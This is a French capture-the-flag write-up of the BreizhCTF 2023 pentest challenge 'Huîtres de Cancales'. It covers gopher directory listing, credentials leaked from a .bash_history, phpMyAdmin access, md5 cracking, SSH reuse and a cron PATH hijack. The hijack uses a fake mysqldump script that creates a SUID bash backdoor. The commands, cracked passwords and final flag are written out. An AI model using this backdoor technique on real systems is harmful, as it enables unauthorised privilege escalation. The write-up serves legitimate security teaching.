


BreizhCTF 2023 - Huîtres de Cancales
==========================

### Challenge details

| Event          | Challenge | Category | Points | Solves |
| -------------- | --------- | -------- | ------ | ------ |
| BreizhCTF 2023 | Huîtres de Cancales | Pentest  | ???    | ???    |


    
Le Marché aux Huîtres de Cancale dispose d'un système d'information viellissant. Vous avez donc été commissionné pour auditer leur périmètre externe !

Auteur: [Zeecka](https://twitter.com/Zeecka_)

### TL;DR

Le système audité expose un service gopher avec un directory listing. L'exposition d'un fichier `.bash_history` permet de récupérer des identifiants MySQL valides. Ces derniers peuvent ensuite être utilisé sur l'application web PhpMyAdmin, afin de récupérer en base un couple login:md5 de l'utilisateur `robert`. Une fois le hash cassé (`Robert35`), il est possible de réutiliser ces identifiants au travers du service SSH. L'élévation de privilège quant à elle se fera par l'intermédiaire d'une `crontab` root (la variable `$PATH` de la crontab contenant le dossier `/home/robert/`).

### Méthodologie

Un premier scan nmap nous indique la présence de 3 services.

```bash
# Nmap 7.80 scan initiated as: nmap -sS -Pn -p- -oA nmap 10.8.0.1
Nmap scan report for 10.8.0.1 (10.8.0.1)
Host is up (0.0000020s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
70/tcp   open  gopher
80/tcp   open  http
# Nmap done -- 1 IP address (1 host up) scanned in 0.35 seconds
```

La présence du service [gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)) est inhabituelle mais en accord avec la description du challenge. Il existe plusieurs clients pour accéder à ce service, le plus simple restant l'utilisation d'extension navigateur, ou de `curl`.

```bash
curl gopher://10.8.0.1/
```
```
i[/]    TITLE   null.host       1
i               null.host       1
1.                                     2023-Mar-12 17:43   --------     /./     604530d613f1    70
1..                                    2023-Mar-12 18:05   --------     /../    604530d613f1    70
1administrator                         2023-Mar-12 17:43   --------     /administrator/ 604530d613f1    70
1night                                 2023-Mar-12 17:43   --------     /night/ 604530d613f1    70
1robert                                2023-Mar-12 17:43   --------     /robert/        604530d613f1    70
1zeecka                                2023-Mar-12 17:43   --------     /zeecka/        604530d613f1    70
i___________________________________________________________________            null.host       1
i                 Gophered by Gophernicus/3.1.1 on Debian/11 x86_64             null.host       1
.
```

On observe ici un comportement digne d'un [directory listing](https://portswigger.net/kb/issues/00600100_directory-listing). L'ensemble des dossiers utilisateurs linux est accessible :

```bash
curl gopher://10.8.0.1/1robert/
```
```
i[/robert/]     TITLE   null.host       1
i               null.host       1
1..                                                                     /       604530d613f1    70
1.                                     2023-Mar-12 17:43   --------     /robert/./      604530d613f1    70
1..                                    2023-Mar-12 17:43   --------     /robert/../     604530d613f1    70
0.bash_history                         2023-Mar-11 10:35     0.5 KB     /robert/.bash_history   604530d613f1    70
0.bash_logout                          2023-Mar-11 10:35     0.2 KB     /robert/.bash_logout    604530d613f1    70
0.bashrc                               2023-Mar-11 10:35     3.5 KB     /robert/.bashrc 604530d613f1    70
0.profile                              2023-Mar-11 10:35     0.8 KB     /robert/.profile        604530d613f1    70
0databases.txt                         2023-Mar-11 10:35     0.2 KB     /robert/databases.txt   604530d613f1    70
i___________________________________________________________________            null.host       1
i                 Gophered by Gophernicus/3.1.1 on Debian/11 x86_64             null.host       1
.
```

On observe la présence d'un fichier `.bash_history` dans le dossier de l'utilisateur `robert`:

```bash
curl gopher://10.8.0.1/1robert/.bash_history
```
```
git status
git add *
git restore --staged main/
git status
git commit -m "typo"
git push
cd web
git add *
git status
git commit -m "favicon"
git push
echo "VGhlIEdhbWUK" | base64 -d
dolphin . &
python3
apt install -y mariadb-server
sudo apt install -y mariadb-server
su
mariadb -u robert
mariadb -u robert -p web
mariadb -u robert -p assword web
whoami
mariadb -u robert -password web
whoami
id
mariadb -u robert -password web < web.sql
mariadb -u robert -password -e "SHOW DATABASES;" > databases.txt
cat databases.txt
rm web.sql
sudo apt update
sudo apt upgrade
```

L'analyse du contenu nous permet d'identifier des tentatives de connexion mariadb. On peut par ailleur confirmer l'execution de la commande `mariadb -u robert -password -e "SHOW DATABASES;" > databases.txt` par la présence du fichier `databases.txt` dans son dossier utilisateur.

L'utilisation de l'option `-password` est ici trompeuse puisque sur mariadb (et mysql) le mot de passe dois être renseigné [directement après le paramètre `-p` et sans espace préalable](https://mariadb.com/kb/en/connecting-to-mariadb/), par exemple ici avec les identifiants `username`:`foobar` :

```bash
mysql -u username -pfoobar database_name
```

On peut donc déduire que le couple de mot de passe ici utilisé est `robert`:`assword` (sans le p, puisqu'il correspond à l'option -p).

Passons maintenant à l'analyse du service web.


*Page d'accueil de l'application web.*

La découverte des ressources web permet d'identifier une application PhpMyAdmin sur l'endpoint `/phpmyadmin/`:

```bash
dirsearch -u http://10.8.0.1/ -x 403,404
```
```
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11622

Target: http://10.8.0.1/

[19:26:17] Starting: 
[19:27:57] 301 -  311B  - /phpmyadmin  ->  http://10.8.0.1/phpmyadmin/
[19:27:59] 200 -   15KB - /phpmyadmin/doc/html/index.html
[19:27:59] 200 -   18KB - /phpmyadmin/
[19:27:59] 200 -   18KB - /phpmyadmin/index.php
[19:27:59] 200 -   69KB - /phpmyadmin/ChangeLog
[19:27:59] 200 -    1KB - /phpmyadmin/README

Task Completed
```


*Application PhpMyAdmin.*

La réutilisation du couple d'identifiants `robert`:`assword` permet ensuite de se connecter à l'application, on récupère alors un compte associé à un hash:


*Accès authentifié à PhpMyAdmin.*

L'identification et le cassage du hash nous permet de retrouver le mot de passe `Robert35`.


*Cassage du condensat md5.*

Nous pouvons maintenant réutiliser ces identifiants pour se connecter en ssh.

```bash
ssh robert@10.8.0.1
cat /flag_user.txt
```
```
BZHCTF{LeMouchoir
```

L'absence d'un flag complet et la présence d'un utlisateur `administrator` suggère la possibilité d'une élévation de privilège. L'inspection des taches planifiées nous permet d'identifier une tache effectuée sous le role de l'admnistrateur : 

```bash
cat /etc/crontab
```
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/robert:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
#17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
#25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
#47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
#52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *    * * *   administrator    mysqldump -u robert -password marche > /tmp/backup.sql
```

Ici l'administrateur utilise l'outil `mysqldump` pour effectuer une copie de la base de donnée toute les minutes. Le chemin absolu n'est pas spécifié et la variable `$PATH` commence par le dossier utilisateur `/home/robert`. L'écriture d'un binaire `mysqldump` dans ce dossier sera donc priorisé au binaire original et executé sous les droits `administrator` toutes les minutes.

Nous allons ici écrire un binaire `mysqldump` malveillant permettant de créer une backdoore `administrator` grace à la crontab. Nous utiliserons une copie SUID du binaire /bin/bash (il est également possible d'ajouter une clé SSH à l'utilisateur administrator, ou bien meme de copier le fichier de flag).

Le contenu du binaire `mysqldump` est le suivant:

```bash
#!/bin/bash
cp /bin/bash /tmp/admin_bash
chmod +s /tmp/admin_bash
```

Ce dernier doit être placé dans le dossier home de l'utilisateur robert, en accord avec la variable PATH précédemment identifié.

```bash
scp mysqldump robert@127.0.0.1:~/
chmod +x mysqldump
```

Une fois la cron executé (toute les minutes), on observe la création d'un binaire SUID `admin_bash` dans le dossier `/tmp` :

```bash
ls -la /tmp
```
```
total 1220
drwxrwxrwt 1 root          root             4096 Mar 12 19:13 .
drwxr-xr-x 1 root          root             4096 Mar 12 19:00 ..
-rwsr-sr-x 1 administrator administrator 1234376 Mar 12 19:13 admin_bash
-rw-r--r-- 1 administrator administrator       0 Mar 12 19:13 backup.sql
-rw------- 1 root          root                0 Mar 10 18:25 tmp.qgg46h67F1
```

L'utilisateur peut maintenant lancer un shell sous les droits `administrator` avec la commande suivante: 

```bash
/tmp/admin_bash -p
admin_bash-5.1$ id
uid=1002(robert) gid=1002(robert) euid=1001(administrator) egid=1001(administrator) groups=1001(administrator),1002(robert)
admin_bash-5.1$ cat /flag_root.txt 
CestUnParcAHuîtres}
```


# Flag

`BZHCTF{LeMouchoirCestUnParcAHuîtres}`
